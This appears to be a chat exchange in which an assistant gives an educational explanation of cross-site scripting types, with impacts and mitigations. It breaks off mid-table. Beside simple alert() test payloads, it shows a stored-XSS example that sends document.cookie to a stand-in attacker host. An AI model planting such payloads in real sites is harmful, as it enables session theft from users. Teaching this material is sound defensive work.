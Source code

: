 

# Introduction to Cross-Site Scripting (XSS)

Cross-Site Scripting (XSS) is a common web security vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. These attacks occur when an application includes untrusted data without proper validation or escaping.

## Key Concepts

1. **How XSS Works**:
   - Attacker injects malicious JavaScript code into a vulnerable website
   - Victim's browser executes the code in the context of the trusted site
   - Attacker can steal cookies, session tokens, or perform actions on behalf of the user

2. **Types of XSS**:
   - **Stored/Persistent XSS**: Malicious script is permanently stored on the target server
   - **Reflected XSS**: Malicious script is reflected off a web server in response
   - **DOM-based XSS**: Vulnerability exists in client-side code rather than server-side code

3. **Common Attack Vectors**:
   ```html
   <script>alert('XSS')</script>
   ```
   ```html
   <img src="x" onerror="alert('XSS')">
   ```
   ```javascript
   javascript:alert('XSS')
   ```

## Prevention Techniques

- Input validation and output encoding
- Implementing Content Security Policy (CSP)
- Using secure frameworks that auto-escape content
- Setting HttpOnly flag on cookies

Understanding XSS is fundamental for both developers (to prevent vulnerabilities) and security professionals (to test for them).

Further Explain the types of XSS extensively

 # **Introduction to Cross-Site Scripting (XSS) - Types Explained Extensively**

Cross-Site Scripting (XSS) is a security vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. These scripts execute in the victim's browser, potentially stealing sensitive data, hijacking sessions, or defacing websites.

XSS attacks are categorized into three main types:

1. **Reflected XSS**  
2. **Stored XSS**  
3. **DOM-based XSS**  

Each type has distinct characteristics and exploitation methods.

---

## **1. Reflected XSS (Non-Persistent)**
Reflected XSS occurs when malicious input from a user is immediately returned by the web application in an unsafe manner, typically in an error message, search result, or URL parameter.

### **How It Works:**
- The attacker crafts a malicious URL containing JavaScript.
- The victim clicks the link (e.g., via phishing).
- The server reflects the script back in the response.
- The victim's browser executes the script.

### **Example:**
```http
https://example.com/search?query=<script>alert('XSS')</script>
```
If the website displays `query` without sanitization, the script runs.

### **Impact:**
- Session hijacking via `document.cookie`.
- Redirecting users to malicious sites (`window.location`).
- Phishing attacks by modifying page content.

### **Mitigation:**
- Input validation & output encoding.
- Using Content Security Policy (CSP).
- Escaping user-supplied data before rendering.

---

## **2. Stored XSS (Persistent)**
Stored XSS occurs when malicious scripts are permanently stored on a target server (e.g., in a database, comment section, or forum post) and later executed when other users access the infected page.

### **How It Works:**
- Attacker submits malicious input stored on the server.
- Victim requests a page containing this stored data.
- Server serves the malicious script to the victim’s browser.
- Script executes in their context.

### **Example:**
A blog comment with:
```html
<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>
```
When another user loads the page, their cookies are sent to the attacker.

### **Impact:**
- Long-term compromise of user accounts.
- Spread of malware

Continue from Stored XSS(persistent) Impact point

 Here's the continuation of the **Stored XSS (Persistent)** section, followed by **DOM-based XSS** and a conclusion:

---

## **2. Stored XSS (Persistent) - Continued**

### **Impact (Continued):**
- **Mass infection of users** (e.g., in social media posts or forums).  
- **Defacement of websites** by injecting permanent malicious content.  
- **Keylogging** by capturing user inputs (`onkeypress` events).  
- **Exploiting trust** (users trust the legitimate site, making attacks harder to detect).  

### **Mitigation:**  
- Strict input validation (whitelist allowed characters).  
- Output encoding before rendering user-generated content.  
- Regular security audits for stored data.  
- Use HTTP-only and Secure flags for cookies to limit theft.  

---

## **3. DOM-based XSS**  
DOM-based XSS occurs when JavaScript modifies the DOM unsafely using attacker-controlled input (e.g., URL fragments or `document.location`). Unlike Reflected/Stored XSS, the server isn’t directly involved—the vulnerability is client-side.

### **How It Works:**  
1. Attacker crafts a malicious URL with a script in the fragment (`#`).  
2. Victim visits the URL.  
3. Client-side JavaScript processes the input and writes it to the DOM unsafely.  
4. Malicious script executes in the victim’s browser.  

### **Example:**  
```http
https://example.com/profile#<img src=x onerror=alert('XSS')>
```
If the page uses:  
```javascript
document.write(location.hash.substring(1)); // Unsafe DOM insertion
```
The payload executes.

### **Impact:**  
- Same as Reflected XSS (session hijacking, phishing, etc.).  
- Harder to detect with server-side scanners since it’s client-side.  

### **Mitigation:**  
- Avoid unsafe DOM methods like `innerHTML`, `document.write()`.  
- Use `.textContent` or safe DOM APIs instead.  
- Sanitize inputs with libraries like DOMPurify.  

---

## **Conclusion**  

| Type          | Storage Location         | Execution Trigger          | Persistence  |
|--------------|--------------------------|----------------------------|-------------|
| Reflected    | URL/HTTP Request         | Victim clicks malicious